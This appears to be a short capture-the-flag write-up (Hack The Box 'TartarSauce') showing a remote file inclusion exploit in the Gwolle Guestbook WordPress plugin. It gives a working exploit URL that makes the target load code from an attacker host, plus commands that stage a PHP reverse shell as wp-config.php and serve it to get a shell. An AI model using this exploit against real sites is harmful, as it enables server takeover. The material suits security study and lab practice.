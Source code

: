 # allow\_include\_url

## allow\_include\_url enabled

### Remote File Inclusion POC 

* Gwolle Guestbook WordPress Plugin \(allow\_include\_url is enable ...\)

[http://\[host\]/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://\[hackers\_website](http://[host]/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://[hackers_website)\]

[http://10.10.10.88/webservices/wp/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://10.10.16.89/test](http://10.10.10.88/webservices/wp/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://10.10.16.89/test)

![](../../../../.gitbook/assets/ed0d0dce1b334732b8bc6acee0e72716.png)

* The server is trying to reach wp-config.php , so let's copy a revershell , rename it and host it:

`root@nywsec:~/Documents/htb/boxes/TartarSauce-88/www# cp nyws.php wp-config.php`

`root@nywsec:~/Documents/htb/boxes/TartarSauce-88/www# python -m SimpleHTTPServer 80`

![](../../../../.gitbook/assets/fd5cef2219244d7c8fb52f59a5107124.png)

* And get a shell back :

![](../../../../.gitbook/assets/8f91ebcb7a024ac9ad3c99a7928e17d6.png)

